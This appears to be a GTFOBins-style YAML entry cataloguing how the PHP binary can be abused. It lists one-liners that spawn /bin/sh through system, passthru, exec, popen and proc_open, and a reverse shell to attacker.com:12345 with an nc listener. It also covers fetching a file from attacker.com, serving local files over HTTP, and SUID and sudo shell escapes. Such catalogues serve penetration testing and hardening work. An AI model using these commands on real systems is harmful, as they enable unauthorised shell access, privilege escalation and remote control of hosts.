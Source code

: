 ```yaml
---
functions:
  execute-interactive:
  - code: |
      export CMD="/bin/sh"
      php -r 'system(getenv("CMD"));'
  - code: |
      export CMD="/bin/sh"
      php -r 'passthru(getenv("CMD"));'
  - code: |
      export CMD="/bin/sh"
      php -r 'print(shell_exec(getenv("CMD")));'
  - code: |
      export CMD="/bin/sh"
      php -r '$r=array(); exec(getenv("CMD"), $r); print(join("\\n",$r));'
  - code: |
      export CMD="/bin/sh"
      php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
  execute-non-interactive:
  - code: |
      export CMD="id"
      php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
  reverse-shell-interactive:
  - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
  upload:
  - description: Serve files in the local folder running an HTTP server. This requires
      PHP version 5.4 or later.
    code: |
      LHOST=0.0.0.0
      LPORT=8888
      php -S $LHOST:$LPORT
  download:
  - description: Fetch a remote file via HTTP GET request.
    code: |
      export URL=http://attacker.com/file_to_get
      export LFILE=file_to_save
      php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
  suid-enabled:
  - code: |
      CMD="/bin/sh"
      ./php -r "system('$CMD');"
  sudo-enabled:
  - code: |
      CMD="/bin/sh"
      sudo php -r "system('$CMD');"
---
```

